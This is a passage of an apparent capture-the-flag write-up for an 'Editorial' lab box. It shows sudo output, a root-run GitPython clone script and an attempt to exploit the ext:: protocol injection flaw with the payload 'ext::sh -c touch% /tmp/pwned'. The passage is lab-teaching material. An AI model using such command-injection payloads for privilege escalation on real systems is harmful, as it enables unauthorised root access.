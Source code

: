 ```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

it can run some script with root privilege. So this can be our way to get our flag.

After a bit of search for the exploit for this i was able to find few resources which can help us get the root flag.


- URL : [https://security.snyk.io](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858?source=post_page-----0fba80ca64e8--------------------------------)


So in short we can run git-remote-ext command as a root user with the the help of that script.

At first i tried to spawn the /bin/bash shell with it using these commands:

```bash
prod@editorial:/opt/internal_apps/clone_changes$ cat clone_prod_change.py 
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
prod@editorial:/opt/internal_apps/clone_changes$ 
```

Let’s try the exploit mentioned in the POC I reference:

```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/opt/internal_apps/clone_changes$ cat /tmp/pwned
prod@editorial:/opt/internal_apps/clone_changes$ 
```